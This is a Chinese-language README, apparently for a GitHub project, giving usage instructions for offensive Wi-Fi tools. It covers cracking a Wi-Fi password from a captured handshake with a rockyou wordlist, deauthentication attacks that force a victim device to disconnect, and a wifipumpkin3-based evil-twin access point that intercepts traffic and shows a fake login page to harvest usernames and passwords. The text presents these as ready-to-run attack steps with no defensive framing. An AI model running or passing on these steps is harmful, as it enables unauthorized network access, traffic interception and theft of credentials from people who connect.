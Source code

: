 ## V2.0
### wifi_password_crack.py

使用python3 wifi_password_crack.py
另起一个终端执行:
curl -d '{"bssid":"AP_bssid","dssid":"client_bssid","device":"wlan0"}' -H "Content-Type: application/json" -X POST 127.0.0.1:10001/start
静待60秒喝口咖啡大概率会出


## V1.0
### wifi.py

-device 指定网卡设备,若不指定此项则会使用wlan0
-bssid 必选项 若不指定无法正常工作
-w 指定字典 若不填则默认/usr/wordlist/rockyou.txt
-dssid 若使用a模式 则需要设置为被攻击设备的bssid

-mode 指定攻击模式,若不指定则默认使用s
	s 扫描模式 若指定-bssid则监听指定设备,若不指定则会进行全信道的扫描
	a 重放攻击,需要使用-dssid指定被攻击的设备
	c 破解模式,可使用-w来指定字典

python wifi.py 
进入扫描模式

python wifi.py -bssid [bssid]
监听此bssid的设备

python wifi.py -mdoe a -bssid [bssid] -dssid [dssid]
进行重放攻击 ,使设备强制离线重连(使用此选项时应该另开一个新终端以保证能一直进行抓包)

python wifi.py -mode c -w [passwordlist]
对wifi密码进行破解,-w选项可进行选填

-----

### wifi_MITM.py
使用此工具前应当先安装wifipumpkin3并确认能正常运行

-i 指定监听的网卡设备,若不指定则默认为wlan0
-ssid 必填项,指定要伪装的ssid
-p 代理模式
	0 无代理模式
	1 在 TCP 协议上拦截网络流量的代理
	2 允许阻止用户访问互联网，直到打开登录页面输入用户名和密码

sudo wifi_MITM.py -ssid [ssid]
此选项会根据指定的ssid名称来生成一个钓鱼wifi

sudo wifi_MITM.py -ssid [ssid] -p 2
此选项会根据指定的ssid名称来生成一个钓鱼wifi,用户连接后将会跳转至登录界面并要求输入账户名和密码

